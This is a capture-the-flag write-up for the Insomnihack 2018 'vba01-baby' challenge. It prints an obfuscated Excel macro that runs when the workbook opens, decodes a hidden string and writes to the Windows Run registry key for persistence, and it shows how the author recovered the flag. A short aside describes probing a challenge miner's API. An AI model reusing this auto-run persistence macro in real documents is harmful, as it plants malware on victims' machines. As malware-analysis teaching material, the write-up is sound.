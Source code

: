 # Insomnihack CTF 2018
## vba01-baby
### The challenge: 
"Help, I've accidentally opened an email attachment, help me find out what happened" 

We are given a [XLS sheet](https://eqqn.github.io/uploads/vba01-baby_272038055eaa62ffe9042d38aff7b5bae1faa518.xls) with macro enabled.
![worskheet_content](https://eqqn.github.io/images/artificialbitcoin.jpg "Worskheet content")

Nothing suspicious in the Worksheet.

At this point it is wise to proceed in a Windows VM, because macros will run as soon as the document is opened, once they are enabled. Let's edit the macro:

### Macro

```
Sub Workbook_Open()
    a ("Sheet1")
End Sub

Private Function a(ByVal aaaaaaaa As String) As String
    Dim aa As Integer
    Dim aaaa As String
    Dim aaaaaa As Worksheet
    Dim aaaaaaa() As String
    
    On Error GoTo e
    Set aaaaaa = Worksheets(aaaaaaaa)
    aa = 874104 / 220128
    aaa = 1
    strHex = ""
    Do While aaaaaa.Columns(aaa).Cells(aa, Int(221892 / 139112)).Value <> ""
        Do While aaaaaa.Columns(aaa).Cells(aa, Int(291792 / 189112)).Value <> ""
            aaaa = aaaa + Chr(aaaaaa.Columns(aaa).Cells(aa, 1).Value Xor ((37 Xor 12) + 1))
            aaa = aaa + Int(218526 / 213912)
        Loop
        aa = aa + Int(18526 / 13912)
        aaa = Int(199526 / 139112)
    Loop
    aaaaaaa = Split(aaaa, Chr(54 Xor 12))
    Set aaaaa = CreateObject(aaaaaaa(0))
    aaaaa.RegWrite aaaaaaa(1), aaaaaaa(2), "REG_SZ"
    Exit Function
e:
    Exit Function
End Function

```

Interestingly enough, the payload is generated from cells contents.
VBA language is used for macros and printing the output of the function is not as straightforward, but we can direct the payload content into a cell, to see what's happening. Looking online, you can find samples how it is done, if you are not familiar with VBA.
Adding `Cells(1, 1) = aaaaaaa(0) + aaaaaaa(1) + aaaaaaa(2)` after regwrite, we dump the string into the first cell. 
Now run it!

**WScript.ShellHKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\
flagINS{Do_n0t_Ena8le_M4cro}**

## Extra

* vba02-bitminer was a similar chall, except that the result of the payload was a "miner" executable. After disassembly it was difficult to see any magic strings, so I did the only reasonable thing - running it, and inspecting the packet sent on Wireshark. 
The recipient being bitminer.insomni.hack , which greeted requests not matching the format with "Go away hacker" text.
I was able to craft my own POST requests on the API with arbitrary parameters, and the error messages indicated it was an SQL DB, but with 15 minutes remaining I didn't go through with blind SQL injection. 

* My first Insomnihack was a success, I've completed 2 challenges(the other being backdoor) on my own right and the rest of the team contributed 1 flag. Being one of the first 15 to complete this chall, I enjoyed the limelight in such a big event on the scoreboard.
